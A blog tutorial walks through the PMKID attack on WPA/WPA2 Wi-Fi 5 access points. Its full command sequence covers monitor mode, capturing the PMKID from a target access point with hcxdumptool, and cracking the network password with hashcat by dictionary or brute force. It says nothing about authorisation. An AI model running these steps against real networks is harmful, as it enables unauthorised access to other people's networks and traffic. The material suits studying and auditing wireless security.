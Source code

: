 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **PMKID Attack on Wifi5 Access Point**

The [author of Hashcat (aka atom)](https://hashcat.net/forum/thread-7717.html) finds a way to obtain the WPA/WP2-PSK (Pre-shared key) password from Wifi5 Access Points (APs) without client involved.  That is 4-way handshake is no longer required.

However, this method does not work on [TP-Link Deco X20](https://www.tp-link.com/hk/home-networking/deco/deco-x20/?utm_medium=select-local) Mesh Wifi Router (Wifi6 with WPA3).  All known attack methods has been tried on the Deco X20 but failed including PMKID attack (tested on March 19, 2020).  I think this method cannot be working on Wifi6 with WPA3 for other brand names too.

### Hardware

- [TP-Link Archer T4UHP AC1300 USB Adapter](https://www.tp-link.com/us/home-networking/usb-adapter/archer-t4uhp/)


The attack will be carry out on Kali Linux 2020.1a and you are required to install the following packages.

```bash
sudo apt install hcxtools hcxdumptool net-tools realtek-rtl88xxau-dkms
```

In order to get the mac address of the target Access Point (AP), you need to run the following commands.  The following commands can detect channel from 1 to 200.

```bash
sudo airmon-ng check kill

sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor

sudo airodump-ng wlan0 --channel 1-200
```

The target AP should be Wifi5 with WPA/WPA2.  Once you get the mac address of the target AP, you need to remove all the ```:``` from the address.  For example, from ```00:0a:95:9d:68:16``` to ```000a959d6816``` and save to a file namely ```ap.txt```.

To make sure the target AP is in the range of the attack.  CTRL-c to quit.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --do_rcascan
```

When every thing is ready, we can scan the PMKID now.

```bash
sudo hcxdumptool -o ap.pcapng -i wlan0 --filterlist=ap.txt --filtermode=2 --enable_status=3
```

When you see ```[FOUND PMKID]```, you can quit it with CTRL-c.

To obtain the PMKID from ap.pcapng.

```bash
sudo hcxpcaptool -z hashtocrack ap.pcapng
```

To crack the ```hashtocrack``` with hashcat by using dictionary.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt
```

or by using brute forcing.

```bash
sudo hashcat -m 16800 hashtocrack -a 3 -w 3 '?l?l?l?l?l?l?l?l'
```

When it is cracked, you can show the result by using the following command.

```bash
sudo hashcat -m 16800 hashtocrack /usr/share/wordlist/rockyou.txt --show
```

* You can use ```--force``` to override the issue of hashcat when necessary.

Samiux  
OSCE  OSCP  OSWP  
March 19, 2020, Hong Kong, China  

|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

